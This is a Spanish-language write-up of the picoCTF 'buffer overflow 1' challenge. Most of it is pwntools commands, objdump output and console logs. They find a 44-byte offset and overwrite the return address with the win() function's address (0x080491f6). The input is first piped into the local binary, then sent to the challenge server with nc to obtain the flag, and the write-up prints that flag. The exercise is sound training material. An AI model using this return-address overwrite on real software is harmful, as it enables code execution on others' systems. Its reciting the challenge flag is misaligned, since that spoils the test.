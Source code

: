 # USERNAME -> amcdanymx

#### Description

Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/252/vuln).You can view source [here](https://artifacts.picoctf.net/c/252/vuln.c). And connect with it using `nc saturn.picoctf.net 54445`

This challenge launches an instance on demand.  
Its current status is: `RUNNING`

Instance Time Remaining: `29:42`

Restart Instance
 

#### PISTAS

- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

#### SOLUCIÓN

Usamos la libreria de pwn para crear y reescribir el buffer con caracteres aleatorios

```
**

Python 3.10.5 (main, Jun  8 2022, 09:26:22) [GCC 11.3.0] on linux

Type "help", "copyright", "credits" or "license" for more information.

>>> from pwn import *

>>> cyclic(100)

b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

>>> cyclic_find(0x6161616c)

44

>>> 'A'*44

'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

>>> p32(0x080491f6)

b'\xf6\x91\x04\x08'

>>>

**

```

Consola

Dirección de memoria a saltar
```
➜  bufferoverflow1 objdump -D vuln -M intel | grep 'win'

080491f6 <win>:

 804922c:   75 2a               jne 8049258 <win+0x62>

➜  bufferoverflow1


```


Consola:

```
amcdanymx:bufferoverflow1/ $ ls                                         
vuln  vuln.c

amcdanymx:bufferoverflow1/ $  nc saturn.picoctf.net 54154                                           
Please enter your string:

sdfsds

Okay, time to return... Fingers Crossed... Jumping to 0x804932f

amcdanymx:bufferoverflow1/ $ code vuln.c                                                         
amcdanymx:bufferoverflow1/ $ chmod +x vuln                                                     
amcdanymx:bufferoverflow1/ $ ./vuln                                                              
Please enter your string:

asdasdasd

Okay, time to return... Fingers Crossed... Jumping to 0x804932f

amcdanymx:bufferoverflow1/ $ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'| ./vuln

Please enter your string:

Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

[1] 37828 done            echo  |

    37829 segmentation fault  ./vuln

amcdanymx:bufferoverflow1/ $ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | ./vuln

  

Please enter your string:

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

Please create 'flag.txt' in this directory with your own debugging flag.

amcdanymx:bufferoverflow1/ $ echo 'flag{dummieflag}'>flag.txt                                        [15:16:11]

amcdanymx:bufferoverflow1/ $ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | ./vuln

  

Please enter your string:

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

flag{dummieflag}

[1] 39097 done            echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' |

    39098 segmentation fault  ./vuln

amcdanymx:bufferoverflow1/ $ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 54154

  

Please enter your string:

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

picoCTF{addr3ss3s_ar3_3asy_c76b273b}%**

```

y obtenemos la bandera al conectarnos y mandar los datos en lugar de manera local al server:


picoCTF{addr3ss3s_ar3_3asy_c76b273b}